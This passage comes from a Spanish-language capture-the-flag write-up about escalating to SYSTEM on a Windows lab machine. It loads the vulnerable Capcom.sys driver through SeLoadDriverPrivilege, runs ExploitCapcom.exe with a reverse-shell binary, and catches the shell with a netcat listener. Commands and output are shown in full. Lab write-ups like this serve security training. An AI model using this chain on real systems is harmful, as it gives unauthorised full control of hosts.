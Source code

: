 ```cmd
-a----        7/29/2024   1:27 PM          10576 Capcom.sys
-a----        7/29/2024   1:27 PM         268288 ExploitCapcom.exe
-a----        7/29/2024   1:27 PM          15360 LoadDriver.exe
-a----        7/29/2024   1:27 PM           7168 rev.exe
```

Ahora, nos ponemos con `netcat` en escucha por el puert 443.
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y en la máquina víctima, ejecutamos el `LoadDriver.exe` , debemos especificarle una ruta para cargar el drive en el registro, puede ser la que sea dentro de `CurrentControlSet`

```cmd
*Evil-WinRM* PS C:\Users\svc-print\privesc> .\LoadDriver.exe System\CurrentControlSet\MyService C:\Users\svc-print\privesc\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```

Y ahora, ejecutamos el `ExploitCapcom.exe`, en la documentación dice de mover `rev.exe` a `C:\Windows\Temp\rev.exe` y ejecutar `ExploitCapcom.exe` sin parámetros, pero esto no me ha funcionado por alguna razón, **así que le especificamos la ruta de `rev.exe` como parámetro**.

```shell
*Evil-WinRM* PS C:\Users\svc-print\privesc> .\ExploitCapcom.exe C:\Users\svc-print\privesc\rev.exe
[+] Path is: C:\Users\svc-print\privesc\rev.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001AF5B210008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.2.5] 50550
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\svc-print\privesc>whoami
whoami
nt authority\system
```

Y ya hemos conseguido acceso como el usuario `nt authority\system` por lo cual hemos escalado privilegios y hemos terminado esta máquina.

Happy Hacking! 🚀